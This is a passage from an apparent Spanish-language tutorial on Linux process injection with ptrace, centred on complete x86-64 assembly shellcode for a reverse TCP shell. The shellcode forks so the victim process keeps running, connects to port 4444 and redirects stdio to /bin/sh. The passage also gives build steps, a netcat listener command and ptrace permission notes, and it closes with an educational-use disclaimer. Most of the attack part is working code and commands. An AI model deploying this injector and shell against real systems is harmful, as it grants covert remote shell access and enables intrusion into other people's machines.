- Modificar RIP: Cambiamos el RIP para que apunte al inicio de nuestro shellcode.
- orig_rax = -1: Establecemos
orig_raxa -1 para evitar que el kernel intente reiniciar una syscall interrumpida. - PTRACE_SETREGS: Aplicamos estos cambios.
- PTRACE_DETACH: Liberamos el proceso. Este continúa ejecutándose, pero ahora desde nuestro shellcode.
- EXIT: El inyector termina su trabajo.
Shellcode: Reverse TCP Shell (proc_inj_rev_tcp.asm)¶
Este es el shellcode que se inyecta en el proceso víctima:
section .text
global _start
_start:
; FORK
mov rax, 57
syscall
cmp rax, 0 ; si rax==0 se trata del hijo
jz .child
; r11 porque es un registro clobbered (destruido por las syscalls)
; por tanto, no se está modificando un registro funcional del proceso tracee
lea r11, [rel _start] ; r11 = dirección de _start = mmap_base = RIP inicial del shellcode
; Nunca se debe asignar un valor a R11 antes de un syscall si se pretende recuperar después
; Proceso Padre
mov r14, [r11+4088] ; Obtiene dirección de retorno
jmp r14 ; Salta a la dirección de retorno sobreescribiendo el registro RIP
.child
; SETSID
mov rax, 112
syscall
; SOCKET
mov rax, 41
mov rdi, 2 ;IPV4
mov rsi, 1 ;TCP
xor rdx, rdx ; Default
syscall
; Store socket FD
mov r8, rax
; CONNECT
mov rax, 42
mov rdi, r8
; Stack Low <----------- High
; Entrada esperada: 02 00 11 5c C0 A8 12 8D 00 00 00 00 00 00 00 00
; └──┘ └──┘ └────────┘ └──────────────────────┘
; 0-1 2-3 4-7 8-15 (16 bytes en total)
; fam port IP padding
; Mapeado de los campos de sockaddr_in:
; Bytes 0-1: 02 00 → sin_family (AF_INET = 2)
; Bytes 2-3: 11 5c → sin_port (4444)
; Bytes 4-7: 7F 00 00 01 → sin_addr (127.0.0.1)
; Bytes 8-15: 00 00 00 00... → sin_zero (padding)
xor r9,r9 ; 0
push r9 ; 64 bits de padding a 0 (sin_zero)(8 bytes)
mov r10, 0x0100007F5c110002
push r10 ; sin_family + sin_port + sin_addr (8 bytes)
mov rsi, rsp ; direccion del tope de la pila
mov rdx, 16 ;IPV4 (espera 16 bytes)
syscall
xor rsi,rsi
.dup2: ; stdin(0), stdout(1), stderr(2) redirigidos al socket
;DUP2
mov rax, 33
mov rdi, r8
syscall
inc rsi
cmp rsi, 3
jl .dup2
; EXEXCVE
mov rax, 59
push 0 ; null terminator de /bin/sh -> /bin/sh\0
mov r12, 0x68732f6e69622f ; /bin/sh (2F 62 69 6E 2F 73 68) en little-endian
push r12 ; string /bin/sh
mov rdi, rsp
push 0 ; argv = {NULL}
mov rsi, rsp
push 0 ; envp = {NULL}
mov rdx, rsp
syscall
.done:
; EXIT
mov rax, 60 ; syscall: exit
xor rdi, rdi ; exit code = 0 (éxito)
syscall
Explicación del shellcode¶
fork() - Bifurcación del proceso¶
¿Por qué fork?
Si ejecutáramos la reverse shell directamente, el proceso víctima quedaría "secuestrado" ejecutando /bin/sh y no podría continuar su trabajo normal. Con fork:
- El proceso padre (la víctima original) puede continuar su ejecución normal.
- El proceso hijo se encarga de la reverse shell.
Retorno del proceso padre¶
¿Qué hace?
- Calcula la dirección base del shellcode usando direccionamiento relativo al RIP.
- Lee la dirección de retorno que guardamos al final de la página mmap.
- Salta a esa dirección, continuando la ejecución normal del programa víctima.
¿Por qué R11?
R11 es un registro "clobbered" por las syscalls (el kernel lo usa para guardar RFLAGS). Por eso lo usamos inmediatamente después del fork, antes de cualquier otra syscall.
setsid() - Nueva sesión¶
¿Por qué setsid?
setsid() crea una nueva sesión y hace que el proceso hijo sea el líder de esa sesión. Beneficios:
- Se desvincula de la terminal controladora original.
- Señales como SIGHUP no lo afectarán cuando el padre termine.
- La reverse shell será más estable y persistente.
socket() - Crear socket TCP¶
mov rax, 41 ; syscall: socket
mov rdi, 2 ; AF_INET (IPv4)
mov rsi, 1 ; SOCK_STREAM (TCP)
xor rdx, rdx ; protocol = 0 (default)
syscall
mov r8, rax ; Guardar fd del socket
Creamos un socket TCP/IPv4 y guardamos el file descriptor en R8.
connect() - Conectar al atacante¶
; Construir sockaddr_in en el stack
xor r9, r9
push r9 ; 8 bytes de padding
mov r10, 0x0100007F5c110002 ; familia + puerto + IP
push r10
mov rsi, rsp
mov rdx, 16
mov rax, 42 ; syscall: connect
mov rdi, r8 ; socket fd
syscall
Estructura sockaddr_in:
0x0100007F5c110002 en memoria (little-endian):
02 00 11 5c 7F 00 00 01
02 00 = AF_INET (familia = 2)
11 5c = puerto 4444 (0x115C en network byte order)
7F 00 00 01 = 127.0.0.1
dup2() - Redirigir I/O¶
¿Qué hace?
Redirige stdin (0), stdout (1) y stderr (2) al socket. Después de esto, todo lo que se lea/escriba irá por el socket hacia el atacante.
execve() - Ejecutar shell¶
mov rax, 59
push 0
mov r12, 0x68732f6e69622f ; "/bin/sh"
push r12
mov rdi, rsp ; argv[0] = "/bin/sh"
push 0
mov rsi, rsp ; argv = {NULL}
push 0
mov rdx, rsp ; envp = {NULL}
syscall
Ejecuta /bin/sh. Como stdin/stdout/stderr están redirigidos al socket, el atacante obtiene una shell interactiva.
Diagrama de memoria post-inyección¶
┌─────────────────────────────────────────────────────────────┐
│ PROCESO VÍCTIMA │
├─────────────────────────────────────────────────────────────┤
│ │
│ Código original del proceso │
│ ┌─────────────────────────────────────────────────────┐ │
│ │ ... │ │
│ │ [RIP original] → instrucción donde se detuvo │◄───┤ Restaurado
│ │ ... │ │
│ └─────────────────────────────────────────────────────┘ │
│ │
├─────────────────────────────────────────────────────────────┤
│ │
│ MMAP Region (4096 bytes, RWX) │
│ ┌─────────────────────────────────────────────────────┐ │
│ │ +0x000: shellcode _start (fork) │◄───┤ Nuevo RIP
│ │ +0x008: ... │ │
│ │ +0x010: código padre (jmp a retorno) │ │
│ │ +0x020: .child (setsid, socket, connect...) │ │
│ │ +0x080: .dup2 loop │ │
│ │ +0x0A0: execve("/bin/sh") │ │
│ │ ... │ │
│ │ +0xFF8: RIP de retorno original │◄───┤ Guardado aquí
│ └─────────────────────────────────────────────────────┘ │
│ │
└─────────────────────────────────────────────────────────────┘
Compilación y uso¶
# Compilar el inyector
nasm -f elf64 proc_inj.asm -o proc_inj.o
ld proc_inj.o -o proc_inj
# Compilar el shellcode (para testing independiente)
nasm -f elf64 proc_inj_rev_tcp.asm -o shell.o
ld shell.o -o shell
# Encontrar PID del proceso objetivo
ps aux | grep <nombre_proceso>
# Modificar el PID en proc_inj.asm (línea: mov r15, <PID>)
# Recompilar y ejecutar (requiere CAP_SYS_PTRACE o mismo UID)
./proc_inj
# En otra terminal: listener para la reverse shell
nc -lvnp 4444
Consideraciones de seguridad¶
Permisos necesarios¶
Para que ptrace funcione, se debe cumplir al menos una de estas condiciones:
- El tracer tiene el mismo UID que el tracee.
- El tracer tiene la capability
CAP_SYS_PTRACE. - El tracer es root.
ptrace_scope (Yama LSM)¶
El archivo /proc/sys/kernel/yama/ptrace_scope controla restricciones adicionales:
| Valor | Comportamiento |
|---|---|
| 0 | Sin restricciones (cualquier proceso puede tracear a otro del mismo UID) |
| 1 | Solo procesos padres pueden tracear hijos (default en Ubuntu/Debian) |
| 2 | Solo procesos con CAP_SYS_PTRACE pueden tracear |
| 3 | Ptrace completamente deshabilitado |
Para testing, puedes temporalmente:
Sobre orig_rax¶
Establecemos orig_rax = -1 antes del DETACH. Si no lo hacemos y el proceso estaba en medio de una syscall interrumpible cuando lo adjuntamos, Linux podría intentar reiniciar esa syscall automáticamente, causando comportamiento inesperado.
Solo en entornos controlados
Este código es para fines educativos y de investigación. Ejecutar únicamente en máquinas virtuales o entornos de laboratorio propios. El uso indebido de estas técnicas es ilegal.